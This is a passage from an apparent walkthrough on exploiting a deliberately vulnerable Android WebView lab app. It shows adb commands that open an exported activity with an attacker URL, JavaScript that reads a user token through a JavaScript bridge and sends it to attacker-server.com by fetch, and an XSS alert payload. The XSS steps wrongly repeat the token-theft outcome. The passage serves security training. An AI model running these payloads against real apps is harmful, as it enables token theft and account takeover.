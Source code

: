 #### Exploit Exported **SupportWebView**

```bash
adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://evil.com"
```

***

**Exploiting SupportWebView for Token Theft**

The `WebAppInterface` exposes a method (`getUserToken`) that returns a token. An attacker can steal this token using JavaScript.

**Exploit JavaScript Code**:

```html
<script type="text/javascript">
    var token = Android.getUserToken();
    fetch('https://attacker-server.com/steal?token=' + token);
</script>
```

**Steps**:

1. Host the exploit script on a server (e.g., using Ngrok).
2.  Launch the `SupportWebView` activity with the malicious URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/exploit.html"
    ```
3. The token will be sent to the attacker's server.

***

#### Exploiting SupportWebView for Cross Site Scripting XSS

```html
<script type="text/javascript">
    alert("0x88");
</script>
```

**Steps**:

1. Host the exploit script on a server (e.g., using Ngrok).
2.  Launch the `SupportWebView` activity with the malicious URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/exploit.html"
    ```
3. The token will be sent to the attacker's server.

***

**Exploiting RegistrationWebView for Local File Exfiltration**
